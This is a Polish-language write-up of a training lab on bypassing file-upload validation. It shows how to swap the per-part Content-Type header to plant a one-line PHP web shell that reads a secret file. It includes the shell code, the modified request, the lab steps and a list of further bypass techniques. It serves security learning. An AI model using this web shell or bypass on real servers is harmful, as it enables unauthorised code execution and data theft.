

# Lab 02 — Web shell upload via Content-Type restriction bypass

- **Kategoria:** File upload vulnerabilities → flawed file type validation
- **Poziom:** Apprentice
- **Data:** 2026-11-23
- **Status:** ✅ rozwiązany
- **Narzędzia:** Burp Suite (Proxy + Repeater), plik `exploits/shell.php`
- **Ścieżka:** labka 2/9 w temacie **File upload**, zaraz po 01 (zero walidacji)

---

## Cel labu

Upload avatara **waliduje typ pliku, ale po nagłówku, który ustawia klient**. Trzeba wgrać web shell w PHP mimo tej walidacji, wykonać go i wyciągnąć `/home/carlos/secret`.

---

## Koncept: walidacja po danych od klienta = brak walidacji

To pierwszy wariant z **jakąkolwiek** obroną (w 01 jej nie było). Obrona tutaj: serwer sprawdza nagłówek **`Content-Type` części pliku** w ciele `multipart/form-data` i dopuszcza tylko `image/jpeg` / `image/png`.

Pułapka koncepcyjna: ten `Content-Type` **ustawia przeglądarka/klient**, nie serwer. Serwer **ufa mu bezkrytycznie** i **nie sprawdza faktycznej zawartości** pliku (nie patrzy na magic bytes). Czyli podejmuje decyzję bezpieczeństwa na podstawie danych, które kontroluje atakujący.

> To ta sama rodzina podatności co cookie `Admin=false` (access control 03) albo zaufanie parametrowi `?id=` (IDOR). **Nigdy nie ufaj decyzji bezpieczeństwa opartej na danych od klienta.**

### Dwa różne `Content-Type` w jednym żądaniu (nie pomylić!)

W żądaniu uploadu są **dwa** nagłówki o tej nazwie, na różnych poziomach:

| Gdzie | Przykład | Rola | Ruszać? |
|---|---|---|---|
| Nagłówek żądania (globalny) | `Content-Type: multipart/form-data; boundary=...` | opisuje całe ciało | **NIE** |
| Wewnątrz części pliku (per-input) | `Content-Type: text/php` przy `filename="shell.php"` | opisuje MIME tego jednego pola | **TAK** |

Walidacja patrzy na ten **wewnętrzny**. Jego podmieniamy.

---

## Mechanizm tego labu: podmiana per-part Content-Type

Zostawiamy `filename="shell.php"` (nazwa = `.php` decyduje o wykonaniu przez interpreter — tego NIE ruszamy) i podmieniamy tylko wewnętrzny `Content-Type` na `image/jpeg`. Zawartość pliku dalej jest czystym PHP — zero bajtów obrazka. Serwer uwierzy nagłówkowi.

Web shell (`exploits/shell.php`) — ten sam co w 01:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

---

## Kroki / przepływ ataku



1. Login `wiener:peter`, Burp łapie ruch.
2. **Szczera próba**: upload `shell.php` jak jest. Serwer odrzuca:
   > *Sorry, file type **text/php** is not allowed. Only image/jpeg and image/png are allowed.*

   (Przeglądarka sama wysłała `Content-Type: text/php` — serwer to wyłapał.) **Warto zrobić tę próbę** — komunikat zdradza dokładnie, co serwer sprawdza i co dopuszcza.
3. Przechwycone `POST /my-account/avatar` → **Send to Repeater**.
4. W części `name="avatar"` zmień tylko:
   ```
   Content-Disposition: form-data; name="avatar"; filename="shell.php"
   Content-Type: image/jpeg          ← było text/php
   <?php echo file_get_contents('/home/carlos/secret'); ?>
   ```
5. **Send** → `200 OK`, body: *The file avatars/shell.php has been uploaded.*
6. `GET /files/avatars/shell.php` → `200`, **Content-Length: 32**, body = `qQJbhRwKTMq5KPbGBlbXDx2B3UCYjjOp`.
7. Submit solution → **Solved**.

---

## ⭐ Dowód, że kod się wykonał

`Content-Length: 32` = długość **sekretu**, nie kodu (`<?php ... ?>` ma ~44 znaki). Gdyby serwer oddał plik jako statyczny/obrazek, w odpowiedzi byłby kod źródłowy PHP. Zobaczyłeś wynik → interpreter zadziałał. `Server: Apache/2.4.41 (Ubuntu)` = setup wykonujący `.php`.

---

## Pułapki

- **Dwa `Content-Type`** — zmieniasz tylko ten **wewnątrz części pliku** (przy `filename=`), nigdy globalnego `multipart/form-data; boundary=...`. Pomyłka = zepsute ciało żądania.
- **`filename` zostaje `.php`** — to nazwa/rozszerzenie decyduje o wykonaniu przez PHP. Gdybyś zmienił na `.jpg`, serwer zapisałby, ale nie wykonał. Oszukujemy **deklarację MIME**, nie nazwę.
- **Rób najpierw szczerą próbę** — komunikat błędu (`text/php not allowed, only image/jpeg/png`) to darmowy wywiad: mówi, co serwer sprawdza i jaką wartość podstawić.

---

## Pojęcia do zapamiętania

- **MIME type / Content-Type (per-part)** — deklaracja typu danych pojedynczego pola formularza w `multipart/form-data`; ustawiana przez klienta, więc niewiarygodna.
- **Flawed file type validation** — walidacja oparta na danych, które kontroluje atakujący (tu: nagłówek `Content-Type`), zamiast na faktycznej zawartości.
- **Magic bytes / file signature** — pierwsze bajty pliku identyfikujące prawdziwy typ (np. `FF D8 FF` dla JPEG); poprawna walidacja patrzy tu, nie na deklarowany MIME.
- **Implicitly trusted input** — serwer podejmuje decyzję bezpieczeństwa na podstawie wartości od klienta bez weryfikacji.

---

## Mindset

Pierwsza labka z **obroną do obejścia**. Schemat: **zrób szczerą próbę → przeczytaj, co serwer sprawdza → znajdź, czy sprawdzana wartość pochodzi od klienta → sfałszuj ją w Repeaterze**. Tu obrona = zaufanie `Content-Type`; łamie się ją jedną linijką, bo serwer nie patrzy na zawartość.

Przenosi się na resztę tematu File upload: każda kolejna labka dokłada mocniejszą walidację (blacklisty rozszerzeń `.phtml`/`.php5`, `.htaccess`, polygloty z PHP w metadanych obrazka, null byte, path traversal w nazwie). Rdzeń niezmienny: **dostarcz wykonywalny plik tam, gdzie serwer go odpali** — zmienia się tylko, które zabezpieczenie trzeba oszukać. Szersza zasada (ponad topic): obrona oparta na danych od klienta to kosmetyka, nie bariera.
